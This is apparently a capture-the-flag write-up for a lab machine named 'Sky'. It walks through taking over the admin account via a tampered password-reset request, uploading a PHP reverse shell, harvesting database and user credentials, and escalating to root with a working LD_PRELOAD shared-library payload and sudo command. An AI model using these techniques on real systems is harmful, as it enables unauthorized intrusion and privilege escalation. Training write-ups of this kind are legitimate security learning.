


**Hostname:**
- `Sky`

**OS:**
- Ubuntu Linux

**Users:**
- `webdeveloper`

**Credentials:**
Web: `admin@sky.thm:Password1` when changed via bug
`webdeveloper:BahamasChapp123!@#`

## Port Scan:


## Recon:

### Web Recon
**Server:**
- Apache 2.4.41

**Technologies:**
- PHP
- PHPMyAdmin

Registration endpoint allows registration of new users.
**When changing the password as the created user, use Burp to intercept the request and change the email= parameter to admin's email and change the password for admin.**

### Machine Recon
**Found MySQL DB credentials in /var/www/html/v2/admin/logincheck.php**
```
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'root';
$DATABASE_PASS = 'ThisIsSecurePassword!';
$DATABASE_NAME = 'SKY';
```

**Found user credentials in MongoDB backup**
```
> show databases;
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

## Foothold / Privilege Escalation:

### Initial Foothold

From the port scan I could see a web application is present so first I went and performed a manual inspection of the application. On the home page I discovered a login endpoint under Merchant Central button which allowed me to register a user.


Since the web application allowed registering users, I created myself a test user.


When I logged in as the test user I saw that it is somekind of a dashboard with simple functionalities although many were nonexistent.


What caught my eye was the Reset User functionality which allowed reseting a password without providing the old one.

On the other endpoing under the Profile section I saw a message that to change a profile picture I should send an email to admin@sky.thm.


I used Burp to intercept the request when resetting my password and changed the email to the admin's email, and due to a bug in the application I was able to reset the password for the admin@sky.thm user.


Now when I logged in as the admin user I had permissions to upload pictures. The vulnerability here was that the backend did not check for file types, and this allowed me to upload a PHP reverse shell onto the server.


Since I was already using Burp and it is performing a passive crawling in the background, when I uploaded the script it found the location of uploaded profile images under /v2/profileimages/.


To execute the shell I just had to send a request to /v2/profileimages/php-reverse-shell.php but before that start a listener on the specified port inside the php shell script.


Once inside I stabilised my shell using common commands which you can find by googling I am not going to write them here.
The next step was to start enumerating, I mostly use linpeas for this to automate a lot of basic enumeration.
Using a python server I uploaded linpeas to /dev/shm and started enumerating. Once finished what caught my eye were two databases running, MongoDB and MySQL. I looked through the PHP files from the application and found MySQL credentials but did not find anything of value inside the MySQL database.




I turned my focus to MongoDB and found an interesting database called backup. I checked inside and found plain text credentials for the webdeveloper user of the machine.


Using these credentials I was able to SSH into the machine as a real user.


### Privilege Escalation:
User `webdeveloper` had sudo permissions on a binary called sky_backup_utility and it had LD_PRELOAD active in the env_keep option.


LD_PRELOAD is a function that allows any program to use shared libraries so I could write a C code and compile it as a shared library file (.so) to get a root shell when executing sky_backup_utility as root
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

**Compile as a shared library:**\
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

After compiling execute the sky_backup_utility with LD_PRELOAD variable pointing to shell.so:\
`sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility`\

Ignore the warnings that popup and just check that the shell.so file is created.



After executing the command a root shell will spawn.


## Journal:

**Note: I tried compiling on my Kali machine but was not successful, so if you cannot compile on your own machine you can compile it inside the target.**

I was googling for LD_PRELOAD info and found this article which helped me understand what LD_PRELOAD is and what it does.\
[Capabilities of LD_PRELOAD](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

As well as this article aboud privilege escalation using LD_PRELOAD.\
[Privilege Escalation with LD_PRELOAD](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)